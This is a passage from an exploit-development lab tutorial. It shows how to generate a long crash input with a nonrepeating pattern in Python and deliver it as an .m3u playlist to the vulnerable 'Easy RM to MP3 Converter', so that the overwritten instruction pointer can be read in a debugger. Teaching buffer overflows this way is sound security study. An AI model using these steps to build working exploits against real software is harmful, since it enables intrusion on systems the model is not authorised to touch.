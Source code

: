 #### Inserting the Nonrepeating Pattern in an Attack

- On your Kali Linux machine, in a Terminal window, execute this command.
  ```bash
  nano ezm-eip1
  ```
- In the nano window, type or paste this code.
  ```python
  #!/usr/bin/python
  prefix = 'A' * 20000
  chars = ''
  for a in range(0x41, 0x5A):
    for i in range(0x30, 0x3A):
      for j in range(0x30, 0x3A):
        chars += chr(a) + chr(a) + chr(i) + chr(j)
  attack = prefix + chars
  print attack
  ```
  ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/20.png)
- On your Kali Linux machine, in a Terminal window, execute these commands.
  ```bash
  chmod a+x ezm-eip1
  ./ezm-eip1 > ezm-eip1.m3u
  cp ezm-eip1.m3u ~/Desktop
  ```
- Drag the ezm-eip1.m3u file to your Windows machine and open it in "Easy RM to MP3 Converter". If you are using a client version of Windows, the lower left corner of the Immunity window now says "Access violation when executing [31505038]", as shown below.